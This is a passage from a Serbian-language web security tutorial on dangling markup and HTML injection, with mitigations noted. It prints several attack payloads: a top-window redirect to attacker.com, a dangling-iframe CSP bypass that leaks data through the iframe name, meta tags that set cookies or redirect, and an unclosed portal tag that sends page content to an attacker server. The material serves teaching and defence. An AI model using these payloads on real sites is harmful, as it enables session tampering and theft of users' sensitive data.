 ```html
<html><head></head><body><script>top.window.location = "https://attacker.com/hacked.html"</script></body></html>
```

Ovo se može ublažiti nečim poput: `sandbox=' allow-scripts allow-top-navigation'`

Iframe takođe može biti zloupotrebljen da bi procurene osetljive informacije sa druge stranice **koristeći atribut imena iframe-a**. To je zato što možete kreirati iframe koji ugrađuje sam sebe zloupotrebljavajući HTML ubacivanje koje čini da **osetljive informacije izgledaju unutar atributa imena iframe-a** i zatim pristupiti tom imenu iz početnog iframe-a i procuriti ga.

```html
<script>
function cspBypass(win) {
win[0].location = 'about:blank';
setTimeout(()=>alert(win[0].name), 500);
}
</script>

<iframe src="//subdomain1.portswigger-labs.net/bypassing-csp-with-dangling-iframes/target.php?email=%22><iframe name=%27" onload="cspBypass(this.contentWindow)"></iframe>
```

Za više informacija pogledajte [https://portswigger.net/research/bypassing-csp-with-dangling-iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes)

### \<meta zloupotreba

Možete koristiti **`meta http-equiv`** da izvršite **nekoliko radnji** poput postavljanja Cookie-a: `<meta http-equiv="Set-Cookie" Content="SESSID=1">` ili izvođenje preusmeravanja (u ovom slučaju za 5s): `<meta name="language" content="5;http://attacker.svg" HTTP-EQUIV="refresh" />`

Ovo se može **izbeći** sa **CSP** u vezi sa **http-equiv** (`Content-Security-Policy: default-src 'self';`, ili `Content-Security-Policy: http-equiv 'self';`)

### Novi \<portal HTML tag

Možete pronaći veoma **interesantna istraživanja** o iskorišćivim ranjivostima taga \<portal [ovde](https://research.securitum.com/security-analysis-of-portal-element/).\
U trenutku pisanja ovog teksta, morate omogućiti tag portala na Chrome-u u `chrome://flags/#enable-portals` ili neće raditi.

```html
<portal src='https://attacker-server?
```

### HTML Curenje

Nisu sve metode curenja povezanosti u HTML-u korisne za Dangling Markup, ali ponekad mogu pomoći. Proverite ih ovde: [https://github.com/cure53/HTTPLeaks/blob/master/leak.html](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

## SS-Curenja
